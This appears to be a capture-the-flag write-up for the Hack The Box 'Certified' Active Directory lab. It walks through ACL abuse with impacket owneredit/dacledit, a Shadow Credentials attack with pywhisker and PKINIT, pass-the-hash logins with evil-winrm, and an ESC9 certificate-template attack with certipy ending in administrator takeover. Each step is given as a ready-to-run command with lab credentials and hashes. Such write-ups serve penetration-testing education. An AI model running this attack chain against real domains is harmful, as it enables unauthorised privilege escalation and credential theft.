

start neo4j database by `sudo neo4j console` and then start bloodhound using `bloodhound` 

load collected data into bloodhound

if we check the permissions we found that judith.mader has writeOwner permissions on Management group



and management_svc is the member of management group



and group has the generic write permissions over management_svc user



management_svc user has GenericAll rights on CA_operator user



CA operator look like the Certificate authority operators first let’s change the owner of management group

```bash
impacket-owneredit -action write -new-owner judith.mader -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' certified.htb/judith.mader:judith09
```



you can get the targetDN from the bloodhound by clicking on management group node and copy the distinguishedName



now let’s give us the full control over the group so we can change the password of user management_svc

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' certified.htb/judith.mader:judith09
```



now we’ll add our user into management group 

```bash
net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S 10.10.11.41
```

and list the group member to see if the user is correctly added

```bash
net rpc group members "management" -U "certified.htb"/"judith.mader"%"judith09" -S 10.10.11.41
```



nice now as we know that members of management group has the GenericWrite permissions on management_svc user

we can perform shadow credential attack to get NTLM hash of the user

### Shadow Credentials attack

The Shadow Credentials attack takes advantage of improper permissions on the **msDS-KeyCredentialLink** attribute, allowing attackers to inject their own public key into the attribute of a target user or computer account. Once this is done, they can impersonate the target account using PKINIT.

so first we need to check if we can actually modify the **msDS-KeyCredentialLink**

the **msDS-KeyCredentialLink** attribute of a user or computer target can be manipulated with the [**pyWhisker**](https://github.com/ShutdownRepo/pywhisker) tool.
Clone the repository and install:

```bash
git clone https://github.com/ShutdownRepo/pywhisker.git
python3 setup.py install
```

now run pywhisker to list the **KeyCredential IDs** and their **creation times**

```bash
pywhisker -d certified.htb -u judith.mader -p judith09 -t management_svc -a list
```



At this point of time, it shows that attribute **msDS-KeyCredentialLink** is empty.

The exploitation phase begins with populating the **msDS-KeyCredentialLink** attribute.

PyWhishker **add** functionality, will generates a public-private key pair and adds a new key credential to the target object

```bash
pywhisker -d certified.htb -u judith.mader -p judith09 -t management_svc -a add
```



now to get TGT using pfx file we’ve generated

```bash
python3 gettgtpkinit.py -cert-pfx KbHEDXbt.pfx -pfx-pass a6OJmtxCmxFthczArdRn certified.htb/management_svc tests.ccache
```



to resolve the  error create a python virtual env 

```bash
source venv/bin/activate
```

and then install the minikerberos dependency using `pip install minikerberos` 

now run the [gettgtpkinit.py](http://gettgtpkinit.py) again



note this key we need in later command to get NTLM hash

let’s get the NTLM hash, first export the kerberos ticket

```bash
export KRB5CCNAME=/home/kali/offsec/tools/pywhisker/pywhisker/tests.ccache
```

now run below command to get NTLM hash using above key we’ve got from above command

```bash
python3 getnthash.py -key d02a6ab81ca9a359103db5d146a4030081eb2d861c88b6a5d58d97a4653f7c6f certified.htb/management_svc
```



Bingo! the hash is ours now, let’s check if we can login using winrm

```bash
netexec winrm 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```



### You said Pwn3d! i heard Access Granted!

```bash
evil-winrm -i 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```



Now as we know that we have the GenericAll permission on ca_operator user we’ll try to change the user’s password but first we need to check group membership of ca_operator user

```bash
net user ca_operator
```



nothing interesting but CA looks like Certificate authority let’s change user’s password and check ADCS using netexec

```bash
net user ca_operator "Password@123" /domain
```



let’s Enumerate ADCS using netexec

```bash
netexec ldap 10.10.11.41 -u ca_operator -p "Password@123" -M adcs
```



let’s use the certipy-ad tool to get certificate template information from Certificate Authority server

```bash
certipy-ad find -vulnerable -u ca_operator@certified.htb -p "Password@123" -dc-ip 10.10.11.41 -debug
```



let’s read the **`20250508042334_Certipy.txt`**



it indicates the there is ESC9 Vulnerability in Certificate template

### ESC9 (No Security Extension)

**ESC9** is one of a series of **Enterprise Security Configuration** (ESC) issues identified by security researchers, particularly by Will Schroeder and Lee Christensen in their whitepaper *"Certified Pre-Owned: Abusing Active Directory Certificate Services"* (2021).

**"No Security Extension"** means that the **certificate template** does not include certain critical extensions that restrict the usage of the issued certificates—**specifically, the `Application Policies` or `Enhanced Key Usage (EKU)` extensions**.

to get more info → https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#no-security-extension-esc9

**Attack Summary**

One thing to note is the presence of the flag `SubjectAltRequireUpn`, this means the enrollee’s `userPrincipalName` attribute will be included in the SAN extension and used to map the certificate to the AD account, so we’ll need to modify our writable user’s UPN to make sure the certificate maps it to our impersonation target’s UPN.

To start the UPN mapping attack we need the writable account’s credentials, shadow credentials is perhaps the easiest method to obtain them, and certipy supports it with the `shadow` command:

```bash
certipy-ad shadow auto -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -dc-ip 10.10.11.41
```



The UPN of the writable user is changed into our target’s `sAMAccountName` with the `account update` command:

```
certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
```



now we’ll request the certificate 

```bash
ertipy-ad req -u ca_operator@certified.htb -hashes a29f7623fd11550def0192de9246f46b -dc-ip 10.10.11.41 -ca certified-DC01-CA -template CertifiedAuthentication
```



now change the user’s UPN back to it’s original UPN

```bash
certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb
```



nice now everything is fine we have administrator’s certificate so let’s use it to get the NTLM hash of the administrator

```bash
certipy-ad auth -dc-ip 10.10.11.41 -domain certified.htb -pfx administrator.pfx
```



let’s login using evil-winrm with administrator’s NTLM hash 

```bash
evil-winrm -i 10.10.11.41 -u administrator -H 0d5b49608bbce1751f708748f67e2d34
```

